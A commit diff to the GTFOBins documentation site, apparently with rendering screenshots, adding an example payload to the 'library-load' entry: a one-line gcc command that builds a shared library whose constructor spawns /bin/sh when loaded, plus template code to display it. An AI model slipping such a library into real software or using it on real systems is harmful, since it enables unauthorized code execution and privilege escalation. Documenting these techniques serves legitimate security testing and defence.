

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/irb.md, in a window 1280 px wide and 900 px high, scrolled down 1092 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1811 px from its top, so only the background shows below that.

Commit message:
Add an example payload generator for library-load

````diff
--- a/_data/functions.yml
+++ b/_data/functions.yml
@@ -74,6 +74,14 @@ download:
 library-load:
   label: Library load
   description: This executable can load shared libraries that may be used to run arbitrary code in the same execution context.
+  extra:
+    payload: |-
+      As an example, the following can be used to create a minimal shared library (`lib.so`) that spawns a shell upon loading:
+
+      ```
+      echo '__attribute__((constructor)) init() { execl("/bin/sh", "sh", 0); }' \
+          | gcc -w -fPIC -shared -o lib.so -x c -
+      ```
 
 inherit:
   label: Inherit
--- a/_layouts/gtfobin.html
+++ b/_layouts/gtfobin.html
@@ -150,6 +150,11 @@ layout: common
                             {% endif %}
                         </fieldset>
                     {% endif %}
+                {% when "library-load" %}
+                    <fieldset>
+                        <legend>Payload</legend>
+                        {{ function.extra.payload | markdownify }}
+                    </fieldset>
                 {% endcase %}
 
                 {% comment %} example comment {% endcomment %}
````
